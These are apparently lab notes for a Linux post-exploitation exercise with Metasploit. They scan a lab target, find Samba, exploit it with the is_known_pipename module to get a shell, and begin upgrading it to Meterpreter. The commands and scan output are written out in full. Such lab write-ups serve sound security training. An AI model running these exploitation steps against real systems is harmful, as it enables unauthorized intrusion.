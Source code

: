 # 🔬 Linux Post Exploitation - MSF

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Post Exploitation Lab I](https://www.attackdefense.com/challengedetails?cid=194)
>
> * Target IP: `192.57.42.3`
> * Metasploit **`post/linux/gather/`** modules

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.57.42.3
workspace -a Linux_PostExp
```

* Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 192.57.42.3
```

```bash
[*] Nmap: Not shown: 998 closed ports
[*] Nmap: PORT    STATE SERVICE     VERSION
[*] Nmap: 139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: MAC Address: 02:42:C0:39:2A:03 (Unknown)
[*] Nmap: Service Info: Host: VICTIM-1
```

### Exploitation <a href="#exploitation" id="exploitation"></a>

```bash
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
options
run
```

```bash
pwd
	/tmp
```

```bash
# CTRL + Z to background the shell
sessions
```

* Upgrade the `shell cmd/unix` sessions to a `Meterpreter` session
